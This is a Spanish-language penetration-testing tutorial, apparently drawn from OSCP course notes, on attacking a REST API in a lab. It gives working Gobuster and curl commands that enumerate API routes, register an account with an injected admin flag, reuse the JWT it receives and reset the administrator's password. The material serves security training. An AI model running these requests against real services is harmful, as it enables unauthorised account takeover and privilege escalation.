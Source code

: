 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Enumeración y Abuso de APIs

En muchos casos, nuestro objetivo de prueba de penetración es una aplicación web de origen cerrado, construida internamente y que se suministra con una serie de Interfaces de Programación de Aplicaciones (API). Estas APIs son responsables de interactuar con la lógica del back-end y proporcionar una base sólida de funciones para la aplicación web.

Un tipo específico de API llamado Representational State Transfer (REST) se utiliza para una variedad de propósitos, incluida la autenticación.

En un escenario típico de prueba de caja blanca, recibiríamos documentación completa de la API para ayudarnos a mapear completamente la superficie de ataque. Sin embargo, al realizar una prueba de caja negra, tendremos que descubrir la API del objetivo nosotros mismos.

\
**Enumeración y Ataque de APIs con Gobuster**

Podemos utilizar las características de Gobuster para realizar un ataque de fuerza bruta en los puntos finales de la API. En este escenario de prueba, nuestro servidor web de la puerta de enlace de la API está escuchando en el puerto 5001 en la dirección IP 192.168.50.16, por lo que podemos intentar un ataque de fuerza bruta en directorios.

Las rutas de la API a menudo van seguidas de un número de versión, resultando en un patrón como: `/api_nombre/v1`&#x20;

### **Convención de Nomenclatura de Rutas de la API**

El nombre de la API suele ser bastante descriptivo sobre la función o los datos que utiliza para operar, seguido directamente por el número de versión.

Con esta información, intentemos realizar un ataque de fuerza bruta en las rutas de la API utilizando una lista de palabras junto con la función de patrones de Gobuster. Podemos llamar a esta función utilizando la opción `-p` y proporcionando un archivo con patrones. Para nuestra prueba, crearemos un archivo de patrones simple en nuestro sistema Kali que contenga el siguiente texto:

```bash
{GOBUSTER}/v1
{GOBUSTER}/v2
```

### **Patrón de Gobuster**

En este ejemplo, estamos utilizando el marcador de posición "{GOBUSTER}" para que coincida con cualquier palabra de nuestra lista de palabras, que se añadirá con el número de versión. Para mantener nuestra prueba simple, probaremos solo con dos versiones.

Ahora estamos listos para enumerar la API con Gobuster usando el siguiente comando:

```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

### **Enumeración de Rutas de la API con Gobuster**

**Acceso a la Documentación Completa de las APIs**

Aunque esto es común durante las pruebas de caja blanca, no es un lujo que normalmente tengamos durante una prueba de caja negra.

Primero, inspeccionemos la API `/users` con curl.

```bash
curl -i http://192.168.50.16:5002/users/v1
```

**Obtención de Información de Usuarios**

La aplicación devolvió tres cuentas de usuario, incluida una cuenta administrativa que parece valer la pena investigar más a fondo. Podemos utilizar esta información para intentar otro ataque de fuerza bruta con Gobuster, esta vez apuntando al usuario administrador con una lista de palabras más pequeña. Para verificar si alguna propiedad adicional de la API está relacionada con la propiedad del nombre de usuario, ampliaremos la ruta de la API insertando el nombre de usuario admin al final.

```bash
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```

**Ataque de Fuerza Bruta Adicional en la Propiedad de Usuario Administrador**

Hemos iniciado Gobuster para realizar una enumeración de directorios en la ruta ampliada de la API. Este ataque puede ayudarnos a descubrir posibles propiedades o recursos adicionales relacionados con el usuario administrador.

El camino de la API de contraseñas parece atractivo para nuestros propósitos de prueba, así que lo probaremos mediante curl.

```bash
curl -i http://192.168.50.16:5002/users/v1/admin/password
```

Se puede hacer varias pruebas a una api para descubrir varias rutas o informacion relevante.

#### Mas ejemplos

La ruta de la API de contraseñas parece atractiva para nuestros propósitos de prueba, así que la exploraremos mediante curl.

```bash
curl -i http://192.168.50.16:5002/users/v1/admin/password
```

Podemos comprobar si el método de inicio de sesión es compatible ampliando nuestra URL base de la siguiente manera:

```bash
curl -i http://192.168.50.16:5002/users/v1/login
```

Sabemos que uno de los nombres de usuario es "admin", así que podemos intentar iniciar sesión con este nombre de usuario y una contraseña ficticia para verificar que nuestra estrategia tiene sentido.

A continuación, intentaremos convertir la anterior solicitud GET en una solicitud POST y proporcionaremos nuestro payload en el formato JSON356 requerido. Construyamos nuestra solicitud pasando primero el nombre de usuario "admin" y una contraseña ficticia como datos JSON a través del parámetro -d. También especificaremos "json" como el "Content-Type" al especificar una nueva cabecera con -H.

```bash
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type:
application/json' http://192.168.50.16:5002/users/v1/login

```

Intentemos registrar un nuevo usuario con la siguiente sintaxis, agregando una estructura de datos JSON que especifique el nombre de usuario y la contraseña deseados:

```bash
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: 
application/json' http://192.168.50.16:5002/users/v1/register
```

Podríamos aprovechar determinar si hay alguna clave administrativa que podamos abusar. Agreguemos la clave "admin", seguida de un valor True.

```bash
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: 
application/json' http://192.168.50.16:5002/users/v1/register
```

A continuación, intentemos iniciar sesión con las credenciales que acabamos de crear al invocar la API de inicio de sesión que descubrimos anteriormente.

```bash
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: 
application/json' http://192.168.50.16:5002/users/v1/login
{"auth_token":
"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwi
c3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message":
"Successfully logged in.", "status": "success"}
```

Recibimos un token de autenticación exitosa, indicando que hemos iniciado sesión con éxito.

Para obtener una prueba tangible de que somos un usuario administrativo, deberíamos usar este token para cambiar la contraseña del usuario administrador.

Podemos intentar esto forjando una solicitud POST que apunte a la API de contraseñas.

```bash
curl \ 'http://192.168.50.16:5002/users/v1/admin/password' \
-H 'Content-Type: application/json' \
-H 'Authorization: OAuth
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic
3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
-d '{"password": "pwned"}'
```

El método PUT (junto con PATCH) se utiliza a menudo para reemplazar un valor en lugar de crear uno mediante una solicitud POST, así que intentemos definirlo explícitamente a continuación:

```bash
curl -X 'PUT' \
'http://192.168.50.16:5002/users/v1/admin/password' \
-H 'Content-Type: application/json' \
-H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
-d '{"password": "pwned"}'
```

Para demostrar que nuestro ataque tuvo éxito, podemos intentar iniciar sesión como administrador utilizando la contraseña recién cambiada.

```bash
curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type:
application/json' http://192.168.50.16:5002/users/v1/login
```

Son algunos ejemplos sacado de un pfd de OSCP.

Tener en cuenta que estos test se pueden realizar con otras herramientas como burt suite o postman,existen muchas alternativas.
